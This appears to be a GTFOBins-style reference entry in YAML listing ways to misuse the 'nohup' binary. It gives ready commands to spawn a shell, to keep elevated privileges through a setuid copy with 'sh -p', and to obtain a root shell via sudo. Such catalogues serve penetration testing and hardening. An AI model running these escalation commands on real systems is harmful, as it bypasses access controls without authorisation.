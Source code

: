 ```yaml
---
functions:
  shell:
    - code: nohup /bin/sh -c "sh <$(tty) >$(tty) 2>$(tty)"
  command:
    - code: |
        COMMAND='/usr/bin/id'
        nohup "$COMMAND"
        cat nohup.out
  suid:
    - code: ./nohup /bin/sh -p -c "sh -p <$(tty) >$(tty) 2>$(tty)"
  sudo:
    - code: sudo nohup /bin/sh -c "sh <$(tty) >$(tty) 2>$(tty)"
---
```

